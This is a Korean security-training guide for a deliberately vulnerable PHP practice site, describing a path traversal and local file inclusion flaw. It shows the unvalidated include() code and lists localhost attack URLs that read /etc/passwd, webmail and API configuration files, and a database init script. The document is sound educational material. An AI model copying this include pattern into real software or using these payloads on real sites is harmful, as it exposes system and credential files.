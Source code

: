 # 1x INV 웹사이트 취약점 가이드
## 보안 교육 및 실습용 문서

---

## ⚠️ 주의사항

이 문서는 **보안 교육 및 실습 목적**으로만 사용되어야 합니다.
실제 운영 환경에서는 이러한 취약점들이 존재해서는 안 됩니다.

---

## 📍 취약점 위치 및 공격 방법

### 1. **Path Traversal + LFI (Local File Inclusion)**

#### 취약한 파일
- `index.php` (lines 3-12)
- `company.php` (lines 2-7)
- `notice.php` (lines 2-7)
- `product.php` (lines 2-18)
- `support.php` (lines 2-22)

#### 취약점 코드 패턴

```php
// 모든 페이지에 공통으로 존재하는 취약점
$lang = isset($_GET['lang']) ? $_GET['lang'] : 'ko';
$page = isset($_GET['page']) ? $_GET['page'] : '';

if (!empty($page)) {
    $lang_file = "lang/{$lang}/{$page}";
    if (file_exists($lang_file)) {
        include($lang_file);  // 🔴 취약점: 입력값 검증 없음
    }
}
```

#### 공격 벡터

**공격 1: 상위 디렉토리 접근**
```
http://localhost:8000/company.php?lang=../../&page=etc/passwd
http://localhost:8000/index.php?lang=../&page=../webmail/config/config.inc.php
```

**공격 2: 민감한 파일 읽기**
```
http://localhost:8000/support.php?page=../api/config.example.php
http://localhost:8000/product.php?page=../init-db.sql
```
